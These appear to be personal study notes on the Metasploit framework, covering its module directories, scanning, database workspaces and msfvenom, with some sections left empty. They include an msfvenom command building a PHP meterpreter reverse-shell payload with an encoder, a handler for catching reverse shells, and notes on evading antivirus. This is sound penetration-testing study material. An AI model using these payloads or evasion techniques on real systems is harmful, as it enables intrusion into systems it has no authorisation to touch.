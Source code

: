 
- For me the metasploit-framework directory lives here:
	- `/usr/share/metasploit-framework/modules/auxiliary`
- You can find where your msf directory is by:
	- `which msfconsole` 
	- Cat the `msfconsole` file and that will show you were the metasploit-framework directory lives in your system
	
- Auxiliary
	- Any supporting module, such as scanners, crawlers and fuzzers can be found in this directory
		- `tree -L 1 /usr/share/metasploit-framework/module`

- Encoders
	- Will allow you to encode the exploit and payload in the hope that a signature-based antivirus solution may miss them
	-  Security utilities like anti-virus solutions have a database of known threats. 
	- They tend to detect threats by comparing any suspect files to that database and will alert if there is a match 
	- Sometimes they'll do additional checks, so encoders have limited success depending on the security utility solution that the focused-machine(s) may be running
	- Encoders are located in the encoders directory
		- `tree -L 1 /usr/share/metasploit-framework/encoders`

- Evasion
	- These modules will do as the directory name suggests - to try and evade said security utilities that a focused-machine may have
	- These modules live here:
		- `tree -L 2 /usr/share/metasploit-framework/evasion`

- Exploits
	- `tree -L 1 /usr/share/metasploit-framework/exploits`

- NOPs (No OPeration)
	- Do nothing, lol
	- Normally used as buffers to achieve consistent payload sizes 
	- `tree -L 1 /usr/share/metasploit-framework/modules/nops`

- Payloads
	- Codes that will run on the focused-machine
	- Exploits will leverage a vulnerability, however, it will be the payload(s) that achieve whatever the adversary is wanting to do
	- Adapters
		- Wraps single payloads to convert them into various formats
		- ie wrapping a payload in a PowerShell adapter which will run a single PowerShell command which will also execute the payload
	- Singles
		- Self-contained payloads that don't have the need to download any additional components to run on 
		- ie launching ntoepad.exe, calc.exe, adding a user to the system
	- Stagers
		- Setting up a connection between Metasploit and the focused-machine
		- Useful for working with staged payloads
		- The staged payload is first uploaded on to the target system and then the rest of the payload is downloaded 
		- The initial size of the payload will be small when compared to the full payload being sent at once
	- Stages
		- Downloaded by the stager, allows the use of larger payloads
	- Identifying payload types:
		- `/shell_payload`
			- In-line, unstaged payload
		- `/shell/payload`
			- Staged payload 
		- Notice the differences above, the in-line variant has an underscore between shell and the payload name
		- The staged payload sits in its own directory called shell
	- `tree -L 1 /usr/share/metasploit-framework/modules/payloads`
	
- Post
	- Used in the final stage of the test
	- `tree -L 1 /usr/share/metasploit-framework/modules/post`

- Scanning
- Database Feature
- Vuln Scan
- Exploit Vulns
- `msfvenom`

- Scanning
	- use auxiliary/scanner/ (and whatever you find in here)
	- search
	- always use info to find out more about how the module works
	- options as well 
		- smb/smb_version || smb_enumusers || smb_enumshares
		- 
	- You can also run nmap when not within a module in msf
	- You can also do a udp scan
		- `use auxiliary/scanner/discovery/udp_sweep`
			- pretty neat

- Database Feature
	- Useful for when considering multiple devices so as to keep project management simplified and avoid possible confusion when setting parameters
	- Requires the use of `postgresql`
		- `systemctl start postgresql`
			- Make sure that the service has started and is running
		- `msfdb init`
			- Initialise the Metasploit Database
		- `db_status`
			- Check the status of the DB when inside the MSF Console
	- Workspaces
		- Workspaces can be created to isolate different projects
		- `help workspace`
			- works
			- Will list you the various options that you can use when wanting to work with workspace(s)
	- `db_nmap`
		- Report and findings will be saved to the database/workspace that is currently being worked in 
	- `hosts`
		- will list hosts that have been picked up and stored in the database
		- `-h` for more options
		- Once host information has been stored in the DB, you can use hosts -R to add variables to the RHOST parameter
	- `services`
		- Will list the services respective to each host running them that have been picked up 
		- `-h` for more options
		- `-S` will allow you to search the DB for services in the environment (that have been scanned and added to the DB)

- Vulnerability Scanners

- Exploits
	- Run `show payloads` when within an exploit module to show compatible payloads that can go with it
	- Take note that payloads may have additional requirements/parameters that may need to be set so also don't forget to run the `options` (or `show options`) command to see what may be needed
	- Backgrounding jobs
		- Works in MSF as well
		- `ctrl+z` to background a job
	- Sessions
		- `sessions` 
			- Will list all active sessions

- MSFVENOM
- `msfvenom`
	- `msvenom --list formats`
		- Will list supported output formats
			- ie Python
	- Encoders
		- Using modern obfuscation techniques or learning methods to inject shellcode is a better solution for a Red Team Operatives problem
		- But some encoding can help
		- Example:
			- `msfvenom -p php/meterpreter/reverse_tcp LHOST=10.123.123.123 -f raw -e php/`
			- `-p` is the parameter for payload
			- `-f` is for format, the output format, in this case it will be raw
			- `-e` is the encoder
	- Using `exploit/multi/handler`
		- To receive returned (reversed) shells

- Meterpreter
- 
